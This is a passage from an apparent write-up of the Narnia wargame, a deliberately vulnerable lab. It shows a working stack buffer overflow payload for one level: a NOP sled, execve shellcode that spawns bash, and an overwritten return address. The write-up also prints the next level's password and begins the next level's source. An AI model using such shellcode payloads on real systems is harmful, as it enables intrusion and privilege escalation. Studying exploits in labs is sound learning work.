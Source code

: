 Unfortunately, taking an address from the middle of the 1st NOP sled (0xffffd1d4) results in a segfault so we will try the other NOP sled.

![Index html](/assets/images/narnia/04-3.png)

The address 0xffffd524 works!

Now I could use a similar technique to level 3 by storing shellcode in the buffer, and then change the return address to jump the shellcode. This is our final payload:
```bash
/narnia/narnia2 $(python3 -c 'import sys;sys.stdout.buffer.write(b"\x90"*231 + b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + b"\x24\xd5\xff\xff")')
```

```bash
bash-5.2$ whoami
narnia5
bash-5.2$ cat /etc/narnia_pass/narnia5
Ni3xHPEuuw
```

### Narnia 05 Solution

Credentials: Ni3xHPEuuw

We're given a program that writes user input to a buffer and prints the address of the variable i:
```bash
narnia5@gibson:/narnia$ ./narnia5 10
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [10] (2)
i = 1 (0xffffd3c0)
```
We're given the following source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){
    int i = 1;
    char buffer[64];

```